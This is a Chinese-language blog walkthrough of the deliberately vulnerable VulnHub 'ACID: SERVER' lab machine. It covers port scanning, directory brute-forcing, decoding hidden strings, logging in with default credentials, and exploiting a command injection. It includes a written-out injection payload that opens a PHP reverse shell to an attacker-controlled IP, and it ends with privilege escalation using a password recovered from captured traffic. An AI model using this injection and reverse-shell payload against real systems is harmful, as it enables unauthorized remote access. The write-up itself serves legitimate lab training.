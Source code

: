 # 原创
：  VulnHub渗透测试实战靶场 - ACID: SERVER

# VulnHub渗透测试实战靶场 - ACID: SERVER

#### VulnHub渗透测试实战靶场 - ACID: SERVER

## 环境下载

> 
戳此进行[环境下载](https://download.vulnhub.com/acid/Acid.rar)


## ACID: SERVER靶机搭建

> 
将下载好的靶机环境，导入VMware，将其网络适配设置为`NAT`模式，运行即可


## 渗透测试

### 信息收集

> 
使用Kali自带的工具`netdiscover`进行子网探测：`sudo netdiscover -r 192.168.246.0/24`


> 
用Nmap对获取到的靶机IP地址进行扫描：`sudo nmap -sS -A -p 1-65535 192.168.246.130`，发现其33447端口是开放的


### 漏洞挖掘

> 
查看33447端口：`http://192.168.246.130:33447/`，F12查看源码时发现一个十六进制字符串`0x643239334c6d70775a773d3d`转字符串得到`d293LmpwZw==`解base64得到`wow.jpg`


> 
用`dirsearch`爆破一下web目录：`python3 dirsearch.py -u 192.168.246.130:33447 -e *.php`


> 
发现存在`http://192.168.246.130:33447/images/`，结合上一步解密得到的图片名字<br/> 访问：`http://192.168.246.130:33447/images/wow.jpg`，将图片下载下来分析：`strings wow.jpg`


> 
在图片的结尾发现一串可疑字符：


```
37:61:65:65:30:66:36:64:35:38:38:65:64:39:39:30:35:65:65:33:37:66:31:36:61:37:63:36:31:30:64:34

```

> 
用burpsuite的Decoder模块解码得到：`7aee0f6d588ed9905ee37f16a7c610d4`


> 
看长度有点像hash值，尝试MD5解密，得到：`63425`


> 
用`DirBuster`扫描一下web目录，发现`index.php、error.php、cake.php、hacked.php、include.php`


> 
`/Challenge/index.php`页面的源代码中，可以找到`js/forms.js`打开发现在文件中有版权信息


> 
谷歌搜索：`peredur.net form_js`，网页第一个[链接](https://github.com/peredurabefrog/phpSecureLogin/blob/master/index.php)就是，查看commit，在README.md中找到Email和Password相关信息


```
Username	: test_user 
Email		: test@example.com 
Password	: 6ZaxN2Vzm9NUJT2y

```

> 
利用找到的默认信息成功登录，点击页面链接跳转到`http://192.168.246.131:33447/Challenge/include.php`


> 
查看源码，在底部发现`0x5933566a4c6e4a34626e413d`，依照前面的思路解密得到`Y3VjLnJ4bnA=`，base64再次解密得到`cuc.rxnp`，rot13解密得到`php.ekac`，反过来就是`cake.php`


> 
访问`cake.php`，根据页面提示再次进行目录扫描：`python3 dirsearch.py -u 192.168.246.131:33447/Challenge/Magic_Box -e *.php`


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b4c9a3e00ddd4d2aad8b8fc46169aec7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/0971c4fd451749cfa05e749d6200bb6c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
根据扫描结果，访问`http://192.168.246.131:33447/Challenge/Magic_Box/command.php`，测试后发现存在命令执行漏洞


### getshell

> 
起一个监听，在存在命令注入的页面执行：


```
www.baidu.com;php -r '$sock=fsockopen("192.168.246.129",1234);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'

```

### 提权

> 
信息查找发现两个可疑用户：`acid、saman`


> 
在acid的家目录加看到一个名为`.sudo_as_admin_successful`大小为0的文件，提示普通用户可以切换为root用户


> 
查找acid这个用户的文件来获取他的密码来切换账户：`find / -user acid 2&gt;/dev/null`，发现`hint.pcapng`流量包文件


> 
用python搭建Server下载下来进行流量分析：`python -m SimpleHTTPServer 9999`


> 
分析TCP协议，可以发现一段明文传输的对话，发现`saman`用户及其密码`1337hax0r`


> 
用得到的密码切换saman用户后再`sudo su`提权到root，成功拿到root权限

